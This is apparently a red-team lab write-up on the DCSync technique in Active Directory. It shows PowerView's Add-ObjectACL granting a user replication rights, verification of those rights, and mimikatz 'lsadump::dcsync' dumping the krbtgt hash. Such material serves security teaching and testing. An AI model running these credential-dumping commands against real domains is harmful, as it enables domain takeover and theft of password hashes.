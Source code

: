 # DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354\(v=vs.85\).aspx)” extended right
>   * **CN: **DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355\(v=vs.85\).aspx)” extended right
>   * **CN: **DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663\(v=vs.85\).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-18-32.png>)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-02.png>)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-09.png>)

Let's grab the SID of the user spotless with `whoami /all`:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-28-18.png>)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-27-54.png>)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 15-11-36.png>)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-34-44.png>)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}
